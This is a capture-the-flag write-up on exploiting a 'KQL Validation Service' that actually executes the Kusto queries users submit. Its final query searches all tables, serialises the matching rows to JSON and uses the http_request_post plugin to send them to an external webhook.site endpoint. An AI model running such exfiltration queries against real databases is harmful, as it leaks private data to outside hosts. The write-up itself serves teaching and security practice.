






# KQL Validation Service

Writeup author: `0xle`

## Introduction

The *KQL Validation Service* seems to be a web application that allowed users to "validate" their KQL queries.



Additionally, the frontend revealed various "cluster policies" which seems to be retrieved using
various [management commands](https://learn.microsoft.com/en-us/kusto/management/?view=azure-data-explorer).



## Analysis

Running probe queries for row(s) containing `EPT{` will reveal that the queries are not just *validated*, but actually
run against the Data Explorer instance.

**Query**:

```kql
let c = toscalar(search * | where * contains "EPT{" | count);
print assert(c != 0, "nope")
```



Running a query with a gibberish string proves that the query is actually executed and not just validated. This will be
crucial for the exfiltration step later on.



Inspecting the "cluster policies" page will show that the `http_request` and the `http_request_post` plugins are enabled
for the Data Explorer instance.



To summarize the analysis phase concludes that:

- The query is actually being executed, and not just "validated".
- The flag most likely exists in the Data Explorer somewhere and should be accessible.
- The `http_request` and the `http_request_post` plugins are available for use.

## Exploitation

Since the validator does not have an easy way to output an arbitrary message, other means of extracting the data must be
used. Bruteforcing is most likely not possible if the task description can be taken with a grain of salt: "There is a
long flag in the Kusto database as well".

The HTTP request plugins were conveniently enabled and thus, can be used to send the data of the row(s) to an external
HTTP server. The website [webhook.site](https://webhook.site/) was to receive the data.

**Final query**:

```kql
let data = toscalar(search * | where * contains "}" | project a = dynamic_to_json(pack_all()));
evaluate http_request_post("https://webhook.site/...", dynamic({}), dynamic({}), data)
```

Explanation:

- The query searches for rows that has a string field containing `}`.
- The query [projects](https://learn.microsoft.com/en-us/kusto/query/project-operator?view=azure-data-explorer) the
  entire row as a JSON
  by [packing all the columns](https://learn.microsoft.com/en-us/kusto/query/pack-all-function?view=azure-data-explorer).
- The query invoked the [
  `http_request_post` plugin](https://learn.microsoft.com/en-us/kusto/query/http-request-post-plugin?view=azure-data-explorer)
  to send the row to an external HTTP server.

The query was first executed with `EPT{` as the search string, but that sent a bogus flag. The search string `}` was
later tried, which seemed to return the actual flag. (Note that a Regex could be used instead of a `contains` condition
since the task hinted that the flag is supposed to be *long*. For example, by using the following expression:
`where * matches regex "EPT.{10,}"`)

Executing the *final query* will result in the row containing the flag being sent to an external HTTP server thus,
gaining the
flag.

